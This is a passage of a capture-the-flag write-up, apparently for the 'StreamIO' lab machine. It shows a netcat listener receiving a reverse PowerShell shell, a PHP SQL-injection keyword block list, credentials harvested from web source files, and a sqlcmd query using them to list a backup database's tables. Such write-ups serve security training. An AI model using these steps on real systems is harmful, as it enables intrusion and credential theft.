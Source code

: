 ```cmd
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.129.63.50] 51820
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\streamio.htb\admin> whoami
whoami
streamio\yoshihide
```

# Shell as nikk37
### Enum
```cmd
PS C:\inetpub\watch.streamio.htb> type search.php
type search.php
<?php
$search = strtolower($_POST['q']);

// sqlmap choker
$shitwords = ["/WAITFOR/i", "/vkBQ/i", "/CHARINDEX/i", "/ALL/i", "/SQUARE/i", "/ORDER/i", "/IF/i","/DELAY/i", "/NULL/i", "/UNICODE/i","/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "ifnull/i", "/ or /i"];
foreach ($shitwords as $shitword) {
        if (preg_match( $shitword, $search )) {
                header("Location: https://watch.streamio.htb/blocked.php");
                die("blocked");
        }
}


# Query section
$connection = array("Database"=>"STREAMIO", "UID" => "db_user", "PWD" => 'B1@hB1@hB1@h');

dir -recurse *.php | select-string -pattern "database"

admin\index.php:9:$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
login.php:46:$connection = array("Database"=>"STREAMIO" , "UID" => "db_user", "PWD" => 'B1@hB1@hB1@h');
register.php:81:    $connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
```

##### streamio_backup DB
```cmd
PS C:\inetpub\streamio.htb> where.exe sqlcmd
where.exe sqlcmd
C:\Program Files\Microsoft SQL Server\Client SDK\ODBC\170\Tools\Binn\SQLCMD.EXE
PS C:\inetpub\streamio.htb> sqlcmd -S '(local)' -U db_admin -P 'B1@hx31234567890' -Q 'SELECT name FROM streamio_backup..sysobjects WHERE xtype = "U"'
sqlcmd -S '(local)' -U db_admin -P 'B1@hx31234567890' -Q 'SELECT name FROM streamio_backup..sysobjects WHERE xtype = "U"'
name                                                                                                                            
--------------------------------------------------------------------------------------------------------------------------------
movies                                                                                                                          
users                                                                                                                           
// Alternatively
```